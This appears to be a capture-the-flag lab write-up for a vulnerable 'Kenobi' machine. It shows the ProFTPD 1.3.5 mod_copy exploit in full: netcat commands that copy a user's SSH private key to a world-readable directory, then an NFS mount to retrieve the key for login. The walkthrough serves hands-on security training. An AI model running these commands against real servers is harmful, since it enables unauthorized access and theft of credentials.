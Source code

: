 
## **Note :** we know that the private key of kenobi saved in ( /home/kenobi/.ssh/id_rsa ) So ...

- first we will search for version of the FTPD using netcat ( nc ) 
  - nc 10.10.141.110 21
    - 220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [ 10.10.141.110 ]

- Then we Can use : searchsploit FTPD 1.3.5
  - ProFTPd 1.3.5 - 'mod_copy' Command Execut | linux/remote/37262.rb
  - ProFTPd 1.3.5 - 'mod_copy' Remote Command | linux/remote/36803.py
  - ProFTPd 1.3.5 - 'mod_copy' Remote Command | linux/remote/49908.py
  - ProFTPd 1.3.5 - File Copy                 | linux/remote/36742.txt
  
- ## **After Understaning All this notes we get that we can get the private key and use it**  

`searchsploit -x ProFTPd 1.3.5 - File Copy                 | linux/remote/36742.txt`

```

nc 10.10.141.110 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.141.110]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful


```

- # Now let's start our way in :

```

root@kali:~# mkdir /mnt/kenobiNFS
root@kali:~# mount 10.10.141.110:/var /mnt/kenobiNFS
root@kali:~# cd /mnt/kenobiNFS/

cp /mnt/kenobiNFS/tmp/id_rsa /root/thm/kenobi/id_rsa-kenobi
chmod 600 id_rsa-kenobi

```

![](/img/01/03.png)
